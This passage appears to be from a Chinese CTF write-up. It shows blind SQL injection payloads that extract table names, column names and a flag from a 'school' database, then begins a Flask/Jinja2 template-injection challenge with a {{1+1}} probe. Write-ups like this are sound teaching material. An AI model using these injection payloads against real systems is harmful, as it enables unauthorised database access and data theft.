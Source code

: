 得到数据库有这些

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538552799172.jpg)

再修改脚本中的`keypayload`获得表名

```python
     and (select substr((select group_concat(table_name) from information_schema.tables where table_schema in ("school")),'+str(i+1)+',1) in ("'+str(j)+'")) -- 
```

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538555087693.jpg)

这时基本就能发现答案在flag数据库里了，再修改`keypayload`继续运行获取字段名

```Python
and (select substr((select group_concat(column_name) from information_schema.columns where table_name in ("flag")),'+str(i+1)+',1) in ("'+str(j)+'")) --
```

得到字段只有一个flag

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538557063349.jpg)

于是直接可以修改`keypayload`获得最终flag了

```Python
and (select substr((select group_concat('flag') from 'school'.'flag'),'+str(i+1)+',1) in ("'+str(j)+'")) -- 
```

最终得到

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538558808203.jpg)

**`xgctf{easyysql_inj_ho0o0oo}`**

-------

### 6.我爱python

首先这题本身不是非常了解，但是在题目中看到了这些解释

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538564579028.jpg)

这个网站用Python写的，同时在网页源码中发现了这个

![](https://libget.com/gkirito/blog/image/190423/2019-04-23-15538565187304.jpg)

于是去网站上一搜，发现`flask`是Python的一个轻量级框架，仔细一搜网上果然有关于此框架的漏洞注入，这一类称为`模板注入(SSTI)攻击(jinja2)`

>和常见Web注入(SQL注入等)的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。(web安全中的真理：永远不要相信用户的输入)

于是我们了解该特点后先尝试

```Python
{{1+1}}
```
